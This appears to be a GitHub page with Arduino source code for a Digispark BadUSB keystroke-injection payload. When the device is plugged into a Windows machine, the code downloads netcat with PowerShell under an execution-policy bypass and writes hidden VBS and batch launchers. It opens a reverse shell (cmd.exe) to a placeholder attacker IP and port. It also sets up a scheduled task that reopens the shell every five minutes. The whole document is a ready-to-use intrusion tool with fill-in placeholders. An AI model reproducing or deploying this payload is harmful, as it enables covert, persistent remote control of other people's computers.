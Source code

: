 This payload is a reverse shell that runs in the background every 5 minutes from 8:20 AM to 3:11 PM. Replace LINK with netcat direct download link, IP with your listening IP and PORT with a port of your choice. (Ex. 25565).

(Payload runs only once)

  #include "DigiKeyboard.h"
void setup() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(300);
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("cd / & mkdir System & cd System & echo (wget 'LINK' -OutFile a.exe) > b.PS1 & powershell -ExecutionPolicy ByPass -File b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("echo Set WshShell = CreateObject('WScript.Shell') > c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo WshShell.Run chr(34) ^& C:/System/d.bat ^& Chr(34), 0 >> c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo Set WshShell = Nothing >>> c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo START /MIN a.exe IP PORT -e cmd.exe -d ^& exit > d.bat");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("Schtasks /create /tn TaskSystem /tr C:/System/c.vbs /sc minute /mo 5 /st 08:20 /et 15:11");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("d.bat & exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}
void loop() {
}